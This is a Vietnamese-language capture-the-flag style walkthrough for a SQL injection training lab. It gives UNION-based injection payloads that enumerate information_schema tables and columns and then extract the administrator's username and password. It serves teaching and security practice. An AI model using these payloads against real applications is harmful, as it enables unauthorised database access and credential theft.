







# SQL Injection Lab 05: List Database Contents (Non-Oracle)

## Mục tiêu
Liệt kê bảng, cột và lấy mật khẩu tài khoản `administrator` trên hệ quản trị non-Oracle.

## Đề bài

<br><br>

## Bước 1: Bắt request trong Burp Repeater

<br><br>

## Bước 2: Dò số cột và cột hiển thị text

<br><br>

## Bước 3: Liệt kê tên bảng

```sql
' union select table_name, null from information_schema.tables --
```


<br><br>

## Bước 4: Xác định bảng người dùng
Xác định được bảng: `users_bcqzsz`.


<br><br>

## Bước 5: Liệt kê cột của bảng users

```sql
' union select column_name, null from information_schema.columns where table_name = 'users_bcqzsz' --
```


<br><br>

## Bước 6: Lấy tài khoản administrator

```sql
' union select username_ellhtp, password_hlxblr from users_bcqzsz where username_ellhtp = 'administrator' --
```


<br><br>

## Payload solve

```sql
' union select username_ellhtp, password_hlxblr from users_bcqzsz where username_ellhtp = 'administrator' --
```

## Kết quả
Lấy được username/password của `administrator` và đăng nhập thành công.
